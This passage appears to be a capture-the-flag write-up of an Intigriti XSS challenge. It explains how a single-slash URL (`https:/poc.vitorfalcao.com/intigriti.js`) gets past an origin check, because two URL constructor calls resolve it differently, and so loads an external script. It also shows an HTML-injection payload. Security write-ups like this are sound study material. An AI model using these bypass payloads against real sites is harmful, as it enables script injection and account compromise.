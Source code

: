 The `safeURL` function only returns `true` if the script's origin matches the page's own origin (`https://challenge-0525.intigriti.io/`). This means we can't just load an external script from `vitorfalcao.com` as in the earlier example.

## Using the `/message` Endpoint

The `/message?name=something` endpoint reflects our input. My first thought was to use this reflection to serve JavaScript code. The payload would look something like: `<div id=CONFIG_SRC data-url=/?message%3DjsCode>`. However, the reflection is wrapped, like `Hello, <strong>[reflection]</strong>...`, and I couldn't manage to shape this into valid JavaScript, even with some smart fuzzing. I needed another way past `safeURL`.

## Using `null` Origins

A common trick for bypassing origin checks, especially with `postMessage`, involves using a `null` origin. The idea was to load the challenge page in a sandboxed `iframe`, which can cause its `window.origin` to become `null`. However, `safeURL` uses `location.origin` for its comparison. Trying to align this with the sandboxed environment to pass the check while still achieving the desired script load didn't pan out. Another idea that wouldn't work.

## Checks vs. Usage: A Subtle Difference

After stepping back and re-reading the code carefully, something clicked—a detail that I was sure held the solution! The `safeURL` function uses `new URL(url, location)` (with `location` as the base), while `addDynamicScript` uses `new URL(src)` (with no explicit base).

The [MDN documentation for the `URL` constructor](https://www.google.com/search?q=%5Bhttps://developer.mozilla.org/en-US/docs/Web/API/URL/URL%5D\(https://developer.mozilla.org/en-US/docs/Web/API/URL/URL\)) highlights two forms: `URL(url)` and `URL(url, base)`. For the optional `base` parameter:

> `base` (optional):
>
> A string representing the base URL to use in cases where url is a relative reference. If not specified, it defaults to `undefined`.
>  
> When a base is specified, the resolved URL is not simply a concatenation of url and base. Relative references to the parent and current directory are resolved relative to the current directory of the base URL, which includes path segments up until the last forward-slash, but not any after. Relative references to the root are resolved relative to the base origin. For more information see Resolving relative references to a URL.

The goal became clear: construct a URL that, when processed by these two different `new URL()` calls, would resolve to different origins. Specifically, I needed it to:

1.  Resolve to the challenge's origin when `location` is used as the base (to pass `safeURL`).
2.  Resolve to my malicious server's origin when no base is used (to load the script in `addDynamicScript`).

It took some time, but after some fuzzing and trial and error, a working payload emerged: `https:/poc.vitorfalcao.com/intigriti.js`.

The magic lies in the **single forward slash (`/`)** after the `https:` scheme, instead of the usual double slash (`//`). This subtle difference causes the `URL` constructor to interpret the string differently depending on whether a `base` URL is provided.
